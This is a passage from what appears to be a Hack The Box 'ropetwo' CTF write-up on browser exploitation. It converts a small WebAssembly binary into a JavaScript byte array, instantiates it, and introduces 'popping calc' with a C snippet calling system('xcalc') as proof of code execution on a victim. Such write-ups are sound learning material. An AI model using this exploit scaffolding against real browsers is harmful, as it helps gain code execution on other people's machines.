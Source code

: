 71 bytes is a nice small size to work with. While the emcc compiler can also output HTML and JS files for us to test executing the binary in the browser, we'd much rather take the binary and use it as a template for our WebAssembly VM. We can then extract the individual bytes into their hexadecimal representation using [xxd](https://linux.die.net/man/1/xxd):
```console?comments=true
kali@kali:~/htb/ropetwo$ xxd -ps -c1 wasm.wasm | tr '\n' ','
00 61 73 6d 01 00 00 00 01 0a 02 60 00 00 60 02 7f 7f 01 7f 03 03 02 00 01 04 05 01 70 01 01 01 05 06 01 01 80 02 80 02 07 11 04 01 61 02 00 01 62 01 00 01 63 00 00 01 64 00 01 0a 0a 02 03 00 01 0b 04 00 41 2a 0b
```

Except we want unsigned integers for our Uint8Array. Unfortunately xxd doesn't do that, but its not too difficult to rummage around in the bash ballpit and get different numbers. You could probably find a JavaScript library to do this for you.
```console?comments=true
kali@kali:~/htb/ropetwo$ for byte in $(xxd -ps -c1 wasm.wasm | tr '\n' ' '); do echo $(( 16#$byte )); done | tr '\n' ','
0,97,115,109,1,0,0,0,1,10,2,96,0,0,96,2,127,127,1,127,3,3,2,0,1,4,5,1,112,1,1,1,5,6,1,1,128,2,128,2,7,17,4,1,97,2,0,1,98,1,0,1,99,0,0,1,100,0,1,10,10,2,3,0,1,11,4,0,65,42,11,
```

So, our WebAssembly creation looks like this:
```console?comments=true
// Set up the WebAssembly
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,10,2,96,0,0,96,2,127,127,1,127,3,3,2,0,1,4,5,1,112,1,1,1,5,6,1,1,128,2,128,2,7,17,4,1,97,2,0,1,98,1,0,1,99,0,0,1,100,0,1,10,10,2,3,0,1,11,4,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main = wasm_instance.exports.main;
```

Of course, it is also possible to use your browser to generate this code by [fiddling with it](https://wasdk.github.io/WasmFiddle/) a bit and setting the drop-down menu to "code buffer".


## Popping Calc

Whack that into a Uint8Array and we can create the Wasm VM, that will return 42 when executed. Returning 42 is nice and all, but you know what's nicer? Popping calc! It best to start simple - if we merely aim to launch the calculator app on the victim instead of connecting back to us, we won't have any network-layer problems that might cause us to incorrectly assume that we have an error in our exploit somewhere. This practice is known as 'popping calc' - demonstration that you have code execution, and from here more complicated payloads are likely possible, and symbolic of all the *Bad Things™* that could happen to you instead of just opening calc.

We could start with something like this:
```C
#include <stdlib.h>

int main(){
    return system("xcalc");
}
```
